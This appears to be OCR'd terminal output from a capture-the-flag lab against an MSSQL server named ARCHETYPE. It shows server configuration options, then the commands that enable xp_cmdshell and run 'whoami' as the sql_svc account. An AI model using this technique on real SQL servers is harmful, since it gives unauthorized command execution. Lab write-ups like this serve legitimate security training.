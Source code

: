 ```mysql

recovery interval (min)                         0         32767              0             0

remote access                                   0             1              1             1

remote admin connections                        0             1              0             0

remote data archive                             0             1              0             0

remote login timeout (s)                        0    2147483647             10            10

remote proc trans                               0             1              0             0

remote query timeout (s)                        0    2147483647            600           600

Replication XPs                                 0             1              0             0

scan for startup procs                          0             1              0             0

server trigger recursion                        0             1              1             1

set working set size                            0             1              0             0

show advanced options                           0             1              1             1

SMO and DMO XPs                                 0             1              1             1

transform noise words                           0             1              0             0

two digit year cutoff                        1753          9999           2049          2049

user connections                                0         32767              0             0

user options                                    0         32767              0             0

xp_cmdshell                                     0             1              0             0

SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output

--------------------------------------------------------------------------------

archetype\sql_svc

NULL
```
